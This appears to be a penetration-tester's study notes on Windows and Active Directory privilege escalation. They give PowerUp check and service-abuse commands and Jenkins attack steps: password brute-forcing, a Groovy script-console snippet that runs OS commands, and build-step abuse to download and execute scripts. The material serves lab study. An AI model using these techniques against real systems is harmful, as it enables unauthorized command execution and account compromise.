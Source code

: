 # Privilege Escalation
> Mainly focus on the Domain Privilege Escalation
Table of Content
1. [test](#test)

## Local privilege
> See [Window Privilege Escalation](#test)

All check
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Service abuse
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```


# Jenkin --> move to CVE catagory
1. jenkin default allow us to read user and computer
2. jenkin dosn't have rate limit which we can burte force if we know the username (form author perspective try guessing password as username or reversed username)
3. with administrator privileges we can run groovy script on the system

>If you have Admin access (default installation before 2.x), go to http://<IP>/script
In the script console, Groovy scripts could be
```Groovy
executed.def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
5. with normal user, we may can create configuration for the project and we can run OS command via the configuration. (checking permission on burp intruder appending the /configure to the project file) - you need to check every project

>If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter: **powershell –c**

>Again, you could download and execute scripts, run encoded scripts and more.

>In the real world, make our configuration code run before the already-have-code.